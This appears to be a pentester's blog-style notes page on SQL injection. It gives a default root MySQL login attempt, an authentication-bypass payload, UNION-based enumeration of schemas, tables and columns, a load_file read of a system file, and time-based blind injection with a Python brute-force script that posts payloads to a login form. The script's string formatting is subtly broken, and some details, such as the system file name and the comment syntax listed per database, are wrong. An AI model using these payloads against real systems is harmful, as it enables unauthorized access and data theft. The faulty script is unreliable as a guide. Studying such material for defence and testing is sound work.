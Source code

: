 ```yaml
---
layout: post
title: 'Notes | SQL'
date: 2021-12-12
permalink: /notes/databases/sql/
---
```

# [](#header-4)Basic access
Maybe the database have the default login, we can try with:
{% highlight plain %}
> mysql -u root -h <ip>
{% endhighlight %}

# [](#header-4)Basic Injection

If we can send a query to the database to log, we can do:
{% highlight plain %}
' or '1'='1' --
{% endhighlight %}

With this we replace the original input (') and make a statement, do the query or check if 1=1.
Then we add a comment line, there are different comment for each program:
- Oracle: --
- MySQL: #
- MariaDB: /* */


Also we can change the *or* part with the **UNION** syntax.
{% highlight plain %}
' union select ...
{% endhighlight %}

Now we can execute any code we want in the db.
We can check all the tables with this:
{% highlight plain %}
' union select null, 'test', from dual --
{% endhighlight %}
We need to use the same number of field from the tables, so we just need to keep trying adding new fields.

We can try to catch the login request with burp and send the SQLi with it.

# [](#header-4)Error Based
When we see an SQL error in the page we can try to gather information of the web.
Adding and:
{% highlight plain %}
... ORDER BY 5; --
{% endhighlight %}
We can check how many rows are in the query.
##### (We can change **--** to others SQL comments.)

Then we can do an union with the columns:
{% highlight plain %}
... UNION SELECT 1,2,3,4,5;
... UNION SELECT NULL,NULL,NULL,NULL,NULL;
{% endhighlight %}

We can use to enumerate the following functions, replacing the numbers or NULL:
- database()
- user()
- load_file('/etc/password')

Now we can get the tables from the database:
{% highlight plain %}
... UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema = "database-name";
{% endhighlight %}

Or the others databases:
{% highlight plain %}
... UNION SELECT schema_name,NULL FROM information_schema.schemata;
{% endhighlight %}
Some databases can limit the amount on databases show, we can try to change it with limit:
{% highlight plain %}
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 1,1; -- This will show the first one
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 2,1; -- This will show the second one
{% endhighlight %}

To get the columns of a table:
{% highlight plain %}
... UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_schema = "database-name" AND table_name = "table-name";
{% endhighlight %}

If we can not pass a string like **"database-name"** we can encode it:
{% highlight plain %}
> echo "database-name" | xxd -ps
{% endhighlight %}
##### (We may remove the **0a**, and add a **0x** at the beggining.)

# [](#header-4)Time Based (Blind)
We can make sleep the sql function in order to guess if the page is not displaying anything.

For example:
{% highlight plain %}
... 'admin' and sleep(5) --If the user is correct it will wait 5 sec 
... AND if(substr(database(),1,1)='c', sleep(5),1); --
{% endhighlight %}

We can make a Python Script:
{% highlight plain %}
#!/usr/bin/python3

import requests, time, sys, signal
from pwn import *

url = '[your-url]'
s = '0123456789abcdefghijklmnopqrstuvwxyz'
result = ''

def def_handler(sig, frame):
	log.failure("Saliendo")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


def check(payload):
	data_post = {
		'username' : '%s' % payload,
		'password' : 'test'
	}

	time_start = time.time()
	content = requests.post(url, data=data_post)
	time_end = time.time()

	if (time_end - time_start > 5):
		return 1

p1 = log.progress('Database')
p2 = log.progress('Payload')

for i in range(0,10):
	for c in s:
		payload = "' OR if(substr(database(),%d,1)='%c', sleep(5),1); -- - % (i, c)"
		p2.status("%s" % payload)
		
		if check(payload):
			result += c
			p1.status("%s % result")
			break

log.info("Database: %s" % result)
{% endhighlight %}

We can change **database()** from the others functions in the **Error Based** to guess another values (tables, columns,...).